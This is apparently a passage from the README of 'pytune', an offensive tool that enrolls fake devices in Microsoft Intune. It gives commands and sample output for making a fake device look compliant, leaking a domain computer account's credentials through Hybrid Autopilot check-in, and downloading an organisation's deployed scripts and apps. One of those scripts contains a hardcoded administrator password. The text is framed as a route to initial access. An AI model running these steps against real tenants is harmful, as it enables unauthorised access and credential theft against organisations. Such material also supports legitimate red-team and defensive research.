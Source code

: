You can modify what settings are sent as a fake device, for example, in `device/windows.py`.
Then, re-enroll and check-in again so that you can get a fake device being marked as compliant.

### Leak domain computer credentials

When Hybrid Autopilot is configured, you can leak a domain computer's credential for initial access.
To enroll a fake device as AutoPilot, you need to get a hardware hash from your test machine.

As for the hardware hash retrieval, you can referer to the following page.

https://learn.microsoft.com/en-us/autopilot/add-devices#powershell

Then, you can provide the hardware hash in `-H` parameter in `checkin` command.

```
$ python3 pytune.py checkin -o Windows -d Windows_pytune -c Windows_pytune.pfx -m Windows_pytune_mdm.pfx  -u testuser@*******.onmicrosoft.com -p *********** -H $HWHASH
```

Then, after the initial check-in with the hardware hash, the next check-in will give you the domain credential.

```
[+] got online domain join blob
[*] parse domain join info...
 - domain: vuln.local
 - computername: DESKTOP-PZjn0P9$
 - computerpass: _`@#"%zsw^W***********************************************
```

### Download Win32 apps and PowerShell scripts

If there are Win32 apps or PowerShell scripts to be delviered, you can donwload it through `download_apps` command.
Here is the example of the command.

```
$ python3 pytune.py download_apps -d Windows_pytune -m Windows_pytune_mdm.pfx                                                                            
[*] downloading scripts...
[!] scripts found!
[*] #1 (policyid:f7e2c3b6-b57f-43fb-a17f-2feab218806b):

$userName = "pcadmin"
$password = "SuperSecurePassword" 
$securePassword = ConvertTo-SecureString -String $password -AsPlainText -Force

New-LocalUser -Name $userName -Password $securePassword -FullName "Local Administrator" -Description "Local Admin User" -PasswordNeverExpires
Add-LocalGroupMember -Group "Administrators" -Member $userName

[*] downloading win32apps...
[!] found ContosoCorpCustomApp!
[*] downloading from http://swdc01-mscdn.manage.microsoft.com/3decc354-7c51-4c78-9f40-7eb57efbe447/6505c9ee-4847-4d5c-a7bb-aa99ec92d674/4ad4d2b8-9210-4496-ad12-11f48d255119.intunewin.bin ...
[+] successfully downloaded to ContosoCorpCustomApp.intunewin!
[!] found DomainJoin.bat!
[*] downloading from http://swdc02-mscdn.manage.microsoft.com/3decc354-7c51-4c78-9f40-7eb57efbe447/f7131f16-29ef-415d-b549-ea706cba6da0/e9c4f14e-9d76-4797-a697-7139d64c8975.intunewin.bin ...
[+] successfully downloaded to DomainJoin.bat.intunewin!
```
